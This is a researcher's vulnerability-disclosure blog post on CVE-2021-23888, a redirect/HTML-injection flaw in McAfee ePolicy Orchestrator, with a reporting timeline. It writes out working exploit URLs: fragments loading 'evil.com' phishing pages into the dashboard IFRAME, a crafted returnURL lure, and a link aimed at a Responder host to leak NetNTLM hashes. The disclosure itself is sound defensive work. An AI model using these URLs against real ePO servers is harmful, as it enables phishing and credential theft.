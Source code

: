 ```yaml
---
title: "CVE-2021-23888 McAfee ePolicy Orchestrator HTML Injection"
layout: "post"
---
```


**Product:** McAfee ePolicy Orchestrator (ePO) prior to 5.10 Update 10

**Type:** OWASP Top Ten 2013 Category A10 - Unvalidated Redirects and Forwards

**Summary:** Unvalidated client-side URL redirect vulnerability in McAfee ePolicy Orchestrator (ePO) prior to 5.10 Update 10 could cause an authenticated ePO user to load an untrusted site in an ePO IFRAME which could steal information from the authenticated user. This would require the attacker to convince the ePO user to click a malicious link whilst logged into the ePO server through the same browser they used to click the malicious link.


# Introduction
On Purple Team internal assessments, I'm commonly tasked to test critical company infrastructure and software. On this occasion our team was tasked to test the McAfee ePolicy Orchestrator deployment used by our company.

During the assessment, I noticed the heavy use of postMessage and Websockets, but one particular thing stood out - the URL construction on the address bar.

This is what one can typically see on the browser address bar, when accessing a regular IP/URL of the McAfee ePolicy Orchestrator Dashboard:

`https://epo-host:8443/core/orionNavigationLogin.do#/core/orionDefaultPage.do`

The `/core/orionDefaultPage.do` fragment is actually just an HTTP endpoint and like many others, it will be rendered in an IFRAME right below the "Top Dashboard Control bar", which itself will also be rendered in another IFRAME above.

After noticing this, the first thing I tried was to inject a simple Cross-Site Scripting payload and see what happened:

`https://epo-host:8443/core/orionNavigationLogin.do#//javascript:alert(1))`

However the web application correctly filtered the payload and many other payloads I fired at it.

I decided to inspect the Javascript code that was performing the filtering (unfortunately I completely forgot to take more screenshots to show here), and noticed that I could just do something like this:

`https://epo-host:8443/core/orionNavigationLogin.do#//google.com`

The Dashboard would now show the Google Search Page on the IFRAME below the "Top Dashboard Control bar" IFRAME. With this simple double slash payload one could "inject" any website on the Dashboard, and given the way the Dashboard would be presented to the user this would make for a very convincing Phishing attack and could also be used to perform an NetNTLM Hash Leak attack.


# Phishing Scenario:

Given the regular IP/URL of the McAfee ePolicy Orchestrator:
`https://epo-host:8443/core/orionNavigationLogin.do#/core/orionDefaultPage.do`

The attacker only needs to swap the endpoint after the hash (#) to a malicious domain/URL and send the URL to a user with access to the Dashboard:
`https://epo-host:8443/core/orionNavigationLogin.do#//evil.com/phish-page.php`

<p align="center">
  <img src="/assets/posts/2021-03-27-CVE-2021-23888-McAfee-ePolicy-Orchestrator-HTML-Injection/mcafee-epo-html-injection-1.PNG">
</p>
<p align="center">
  <img src="/assets/posts/2021-03-27-CVE-2021-23888-McAfee-ePolicy-Orchestrator-HTML-Injection/mcafee-epo-html-injection-2.PNG">
</p>
<p align="center">
  <img src="/assets/posts/2021-03-27-CVE-2021-23888-McAfee-ePolicy-Orchestrator-HTML-Injection/mcafee-epo-html-injection-3.PNG">
</p>

The malicious domain must obviously not have the X-Frame-Options set to "DENY" or "SAMEORIGIN" in order for the domain to be loaded on an IFRAME, but since the attacker controls its own website, that is not really an issue.

For a more practical Phishing attack, a more convincing URL can constructed, leveraging the Dashboard Licensing Endpoint and its GET parameter `returnURL`.

This provides a better back story for the Phishing email (eg: licensing problems):

`https://epo-host:8443/SoftwareMgmt/enterLicenseKey.do?returnURL=%2f..%2fcore%2forionNavigationLogin.do%23%2f%2fevil.com%2fphish-page.php`

This link above will drop the targeted user on the Dashboard "License Key" Settings and after any action (Save or Cancel) performed by the user, he will be redirected to the Phishing page:

`https://epo-host:8443/core/orionNavigationLogin.do#//evil.com/phish-page.php`


# Leak of an ePO user NetNTLM Hash Scenario (forgot to take screenshots again):

Point to the host running Responder or Inveigh and send the URL to a user with access to the Dashboard:
`https://epo-host:8443/core/orionNavigationLogin.do#//host-running-responder-or-inveigh`


# Timeline
- 2020-09-07: Reported the issue McAfee's HackerOne Vulnerability Program.
- 2020-09-08: Report triaged.
- 2020-09-21: Status feedback request sent.
- 2020-09-21: Feedback received - Issue is being internally evaluated by McAfee.
- 2020-10-05: Feedback received - Issue confirmed and planning to address it by McAfee are on the way.
- 2020-10-06: Status feedback request sent.
- 2020-12-02: Status feedback request sent.
- 2020-12-02: Feedback received - Patch release time line on Q1 2021 and a CVE assignment will be made
- 2021-03-08: Status feedback request sent.
- 2021-03-08: Feedback received - McAfee team is still working on the issue internally
- 2021-03-08: Feedback received - Patch release later in March 2021
- 2021-03-09: Status feedback request sent.
- 2021-03-12: Feedback received - Information requested for the CVE and patch information release
- 2021-03-12: Information sent to McAfee
- 2021-03-12: Request permission to create a blog post on this issue
- 2021-03-15: Feedback received - McAfee would like to contribute and review the post before publishing
- 2021-03-15: Information sent to McAfee on the details of the blog post 
- 2021-03-15: Feedback received - CVE-2021-23888 reserved and bulletin number SB10352 being drafted
- 2021-03-26: Feedback received - Patch and Patch Bulletin released - https://kc.mcafee.com/corporate/index?page=content&id=SB10352
- 2021-03-27: Publication of this post.
